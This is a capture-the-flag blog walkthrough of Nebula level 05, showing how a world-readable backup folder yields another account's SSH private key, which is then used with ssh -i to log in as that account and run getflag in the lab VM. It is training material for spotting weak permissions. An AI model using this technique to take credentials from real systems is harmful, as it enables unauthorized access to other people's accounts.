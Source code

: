 ```yaml
---
layout: default
title: "Nebula05"
tags: Nebula
description: "Recovering ssh keys to capture the flag"
---
```



## Level 05

> Check the flag05 home directory. You are looking for weak directory permissions. To do this level, log in as the `level05` account with the password `level05`. Files for this level can be found in `/home/flag05`.

## Source code

There is no source code available for this level.

## Getting the flag

By checking the `flag05` directory we can find unprotected `.backup` folder:

```
level05@nebula:/home/flag05$ ls -lah
total 9.0K
drwxr-x--- 1 flag05 level05   80 2021-06-16 00:17 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw------- 1 flag05 flag05    13 2021-06-16 00:17 .bash_history
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3.3K 2011-05-18 02:54 .bashrc
drwx------ 2 flag05 flag05    60 2021-06-15 23:06 .cache
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
```

Let's check and extract those backups:

```
level05@nebula:/home/flag05$ cd .backup/
level05@nebula:/home/flag05/.backup$ mkdir /tmp/flag05
level05@nebula:/home/flag05/.backup$ tar xvzf backup-19072011.tgz -C /tmp/flag05
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:/home/flag05/.backup$ cd /tmp/flag05
```

Alright, we got some ssh keys! 

Let's try them out:

```
level05@nebula:/tmp/flag05$ cd .ssh
level05@nebula:/tmp/flag05/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
level05@nebula:/tmp/flag05/.ssh$ chmod 600 id_rsa
level05@nebula:/tmp/flag05/.ssh$ ssh -i id_rsa flag05@localhost
  
      _   __     __          __     
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ / 
  /_/ |_/\___/_.___/\__,_/_/\__,_/  
                                    
    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

flag05@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

And we got the flag. Pay attention that `chmod 600 id_rsa` and `ssh` with `-i` flag are required to use this private key. 

## Other Nebula levels 
- [level00](https://hackish.space/Nebula-level00)
- [level01](https://hackish.space/Nebula-level01)
- [level02](https://hackish.space/Nebula-level02)
- [level03](https://hackish.space/Nebula-level03)
- [level04](https://hackish.space/Nebula-level04)
- [level05](https://hackish.space/Nebula-level05)
- [level06](https://hackish.space/Nebula-level06)
- [level07](https://hackish.space/Nebula-level07)
- [level08](https://hackish.space/Nebula-level08)
- [level09](https://hackish.space/Nebula-level09)
- [level10](https://hackish.space/Nebula-level10)
- [level11](https://hackish.space/Nebula-level11)
- [level12](https://hackish.space/Nebula-level12)
- [level13](https://hackish.space/Nebula-level13)
- [level14](https://hackish.space/Nebula-level14)
- [level15](https://hackish.space/Nebula-level15)
- [level16](https://hackish.space/Nebula-level16)
- [level17](https://hackish.space/Nebula-level17)
- [level18](https://hackish.space/Nebula-level18)
- [level19](https://hackish.space/Nebula-level19)